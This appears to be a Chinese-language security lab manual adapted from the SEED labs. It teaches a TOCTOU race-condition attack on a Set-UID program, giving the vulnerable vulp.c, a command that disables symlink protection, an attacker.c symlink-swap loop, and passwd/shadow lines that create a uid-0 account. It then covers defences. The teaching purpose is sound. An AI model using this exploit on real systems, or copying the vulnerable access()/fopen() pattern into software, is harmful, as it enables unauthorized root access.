




# 第 1 节 竞态条件漏洞实验

## 实验简介

竞态条件是指多个线程同时访问或者操作同一块数据，运行的结果依赖于不同线程访问数据的顺序。如果一个拥有 root 权限的程序存在竞态条件漏洞的话，攻击者可以通过运行一个平行线程与漏洞程序竞争，以此改变该程序的行为。

在本实验中学生将利用竞态条件漏洞获得 root 权限。除了攻击之外，学生还将学习如何制定保护方案抵御该类攻击。

系统用户名 seed，密码 dees

## 实验导引

### 1、两个可能的攻击目标

利用 vulp.c 中的竞态条件漏洞可以做很多事情。其中一种是利用漏洞在 /etc/passwd 和 /etc/shadow 后追加信息。这两个文件是 unix 做用户授权用的，攻击者有可能利用这点创建用户，甚至是超级用户。

为了了解应该在这两个文件后追加什么信息，运行 adduser，并查看结果。

下面给出例子：

```
/etc/passwd:
-------------
smith:x:1000:1000:Joe Smith,,,:/home/smith:/bin/bash
/etc/shadow:
-------------
smith:*1*Srdssdsdi*M4sdabPasdsdsdasdsdasdY/:13450:0:99999:7::: 
```

passwd 第三列乃用户的 uid，将它改为 0 的话，duangduang～，smith 就成为 root 用户了。

### 2、创建连接

你可以通过调用 c 函数 symlink()创建连接。因为 linux 不允许创建已经存在的连接，我们需要先删除旧链接，下面的 C 代码演示如何移除一个旧链接并使/tmp/XYZ 指向/etc/passwd:

```
unlink("/tmp/XYZ");
symlink("/etc/passwd","/tmp/XYZ"); 
```

或者使用命令`ln -sf` 创建链接，f 选项意味着覆盖原链接。ln 命令的内部实现本身就包含上文的两个函数。

### 3、提高成功率

最重要的一步（创建指向目标文件的链接）发生在调用 access 函数与 fopen 函数之间。既然我们无法更改漏洞程序，那么唯一能做的就是运行攻击程序，希望链接操作能在那段时间内发生。如果间隙很小的话，攻击成功率就比较渺茫了。所以你需要写程序自动化你的攻击流程，反复进行攻击，为避免手动输入 vulp 程序。你可以使用以下命令

```
./vulp < FILE        (FILE 是你 scanf 的文本文件) 
```

### 4、检测攻击是否成功

既然普通用户无法访问 shadow 文件中的内容，那该如何知道文件是否被更改呢？可以看时间戳啊！而且一旦得知攻击成功就停止攻击这样做会更好一点，以下 shell 命令检查文件时间戳是否更改：

```
#!/bin/sh
#注意`不是单引号
old=`ls -l /etc/shadow`
new=`ls -l /etc/shadow`
while [ "$old" = "$new" ]
do
new=`ls -l /etc/shadow`
done
echo "STOP... The shadow file has been changed" 
```

### 5、意想不到的情况

如果 /tmp/XYZ 的所有人是 root 的话，情况就不太妙了，因为它的 sticky 位是开启的，这就意味着只有它的所有人能够删除它。

如果这种糟心事儿真的发生的话，你就得以 root 权限手动移除/tmp/XYZ 再进行攻击了（坑爹嘛这不是！）。

记住，移除存在的链接与创建新的链接关系到两次完全独立的系统调用，所以如果在移除了/tmp/XYZ 之后，目标程序获得机会运行 fopen(fn, "a+") 语句，他将会创建一个所有人为 root 的新文件。思考能够避免这种情况的方法。

### 6、警告！警告！

在过去，有些学生会不小心手滑清空 shadow 文件的内容。所以在进行实验前最好先备份一下。

## 实验内容

### 1、实验准备

由于本实验环境开启了针对竞态条件攻击的保护，所以需要先关掉保护。该选项意味着全域可写 sticky 位开启的文件夹是不能作为链接目标所在文件夹的。

```
$ sudo su
$ echo 0 > /proc/sys/fs/protected_symlinks
$ exit 
```

### 2、漏洞程序

以下程序看似无害，实则包藏祸心(有漏洞！)

```
//vulp.c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#define DELAY 10000

int main()
{
    char * fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;
    long int i;
    /* get user input */
    scanf("%50s", buffer );
    if(!access(fn, W_OK)){
        for(i=0; i < DELAY; i++){
            int a = i²;
        }
        fp = fopen(fn, "a+");
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else printf("No permission \n");
} 
```

这是一个 Set-UID 程序(root 所有) 它将用户输入的字符串添加到文件 /tmp/XYZ 后，access()会检查用户是否具备访问资源的权限，也就是说该函数检查 real id 而不是 effective id。

这个程序第一眼看上去没有任何问题，但是这里有一个竞态条件漏洞。由于检查（access）与访问（fopen）之间存在时间间隙，所以检查与访问的就有可能不是同一个文件，即使它们的名字相同。如果一个恶意攻击者可以创建一个/tmp/XYZ/链接指向/etc/shadow,输入的字符串就会追加到 shadow 文件中去。

### 3、实验 1: 利用竞态条件漏洞

利用漏洞做到以下 2 点：

*   重写拥有者为 root 的任意文件
*   获取 root 权限

**实验 1.1：重写拥有者为 root 的任意文件** 1.首先如下图创建几个文件，注意这几个文件的权限。在 append*text 文件中加入你想要在 root*file 里加入的任意内容。编译漏洞程序代码并将其设为 SET-UID 文件。设置 suid 只需运行以下命令：

```
$ sudo chmod u+s vulp 
```

 （ps1：这里更正 root*file, 请将该文件用户组改为 root） （ps2：这里的 tmp*file 只是一个临时文件，用法会在下文体现，这里先建一个空的 tmp_file 就好）

这样攻击条件就都具备了，这步之后都以普通用户的身份进行攻击。

2.创建检查时间戳的脚本 check.sh，并将运行 vulp 的命令加入其中。

```
#!/bin/sh
#注意`不是单引号
old=`ls -l /home/seed/race/root_file`
new=`ls -l /home/seed/race/root_file`
while [ "$old" = "$new" ]
do
    ./vulp < append_text
    new=`ls -l /home/seed/race/root_file`
done
echo "STOP... The file has been changed" 
```

不要忘记给脚本运行权限：

```
$ chmod u+x check.sh 
```

3.创建攻击代码 attacker.c 并编译

```
int main()
{
    while(1){
        system("ln -sf /home/seed/race/tmp_file /tmp/XYZ");
        system("ln -sf /home/seed/race/root_file /tmp/XYZ");
    }
    return 0;
} 
```

i 此时文件夹目录的情况：  （这里更正 root_file, 请将该文件用户组改为 root）

4.终端里新建标签页，先运行 attacker 再运行 check.sh  可以看到内容已经被写进 root_file 中了。（顺序倒过来的话会导致调用 fopen 生成一个 root 权限的/tmp/XYZ 文件，那样攻击就失败了。）

**实验 1.2：获取 root 权限**

先回顾下 passwd 文件与 shadow 文件中的格式

```
/etc/passwd:
-------------
smith:x:1000:1000:Joe Smith,,,:/home/smith:/bin/bash
/etc/shadow:
-------------
smith:*1*Srdssdsdi*M4sdabPasdsdsdasdsdasdY/:13450:0:99999:7::: 
```

这里假设 账户名：clover 密码：revolc

1.生成 shadow 密码

```
$ mkpasswd -m sha-512 
```

2.格式替换

```
/etc/passwd:
-------------
clover:x:0:0:Lucy,,,:/home/clover:/bin/bash
/etc/shadow:
-------------
clover:$6$D1viNru/muy$RH/3rX7T977d81qTZx1ULeURLl1ldKDHT48Nn3UMaED2ppd6eC40URnvEnLcG0uDTk6aZj0tWpSdKStDuBKqU0:13450:0:99999:7::: 
```

接下来你懂的。 （注意输入文件的内容不能有空格或者换行，请用命令生成 shadow 密码。）

### 4、实验 2: 保护机制 A：重复

想要避免竞态条件的发生并不轻松，因为先检查再访问这个模式在很多程序中都是需要的。比起想办法移除漏洞，换个思路，我们可以增加更多的竞态条件，这样就能减小攻击者攻击成功的概率了。该机制的基础思想是重复 access 和 fopen 函数的次数。

请使用策略修改漏洞程序，重复你的攻击。

代码如下：

```
#include <stdio.h>
#include <unistd.h>
#define DELAY 10000

int main()
{
    char * fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;
    long int i;
    /* get user input */
    scanf("%50s", buffer );
    if(!access(fn, W_OK)){
        if(!access(fn, W_OK)){
            /*嵌套 n 层*/
            fp = fopen(fn, "a+");
            fwrite("\n", sizeof(char), 1, fp);
            fwrite(buffer, sizeof(char), strlen(buffer), fp);
            fclose(fp);
        }
        else printf("No permission \n");
    }
    else printf("No permission \n");
} 
```

### 5、实验 3: 保护机制 B：最小权限原则

该程序的根本问题就在于它违反了最小权限原则，程序员认识到运行这个程序的用户可能权利过大，所以引入 access 函数进行限制，但也同时引入了竞态条件的隐患。

更好的方法是使用 seteuid 系统调用暂时禁止 root 权限，当需要时再恢复。请以此法修复漏洞，再重复之前的攻击，观察结果并解释。

代码如下：

```
 #include <stdio.h>
    #include <unistd.h>
    #define DELAY 10000

    int main()
    {
        char * fn = "/tmp/XYZ";
        char buffer[60];
        FILE *fp;
        long int i;
        /* get user input */
        scanf("%50s", buffer );

        uid_t euid = geteuid(); 
        seteuid(getuid());

        for (i=0; i < DELAY; i++){
                int a = i²;
        }

        if (fp = fopen(fn, "a+")){
            fwrite("\n", sizeof(char), 1, fp);
            fwrite(buffer, sizeof(char), strlen(buffer), fp);
            fclose(fp);
        }
        else printf("No permission \n");

        seteuid(euid);
    } 
```

### 6、实验 4: 保护机制 C：Ubuntu 内置方案

在本节实验中，你只需要重新开启保护机制，观察攻击结果并回答以下几个问题就可以了。

1.  为什么该保护机制其作用了？

2.  这是一个优秀的保护机制么？为什么是为什么不是？

3.  该机制有什么限制的地方？

    $ echo 1 > /proc/sys/fs/protected_symlinks



## 四、 练习

按要求完成实验内容并回答每节实验给出的问题。

## License

本课程所涉及的实验来自[Syracuse SEED labs](http://www.cis.syr.edu/~wedu/seed/)，并在此基础上为适配[实验楼](http://www.shiyanlou.com)网站环境进行修改，修改后的实验文档仍然遵循 GNU Free Documentation License。

本课程文档 github 链接：[`github.com/shiyanlou/seedlab`](https://github.com/shiyanlou/seedlab)

附[Syracuse SEED labs](http://www.cis.syr.edu/~wedu/seed/)版权声明：

> Copyright Statement Copyright 2006 – 2009 Wenliang Du, Syracuse University. The development of this document is funded by the National Science Foundation’s Course, Curriculum, and Laboratory Improvement (CCLI) program under Award No. 0618680 and 0231122\. Permission is granted to copy, distribute and/or modify this document under the terms of the GNU Free Documentation License, Version 1.2 or any later version published by the Free Software Foundation. A copy of the license can befound at http://www.gnu.org/licenses/fdl.html.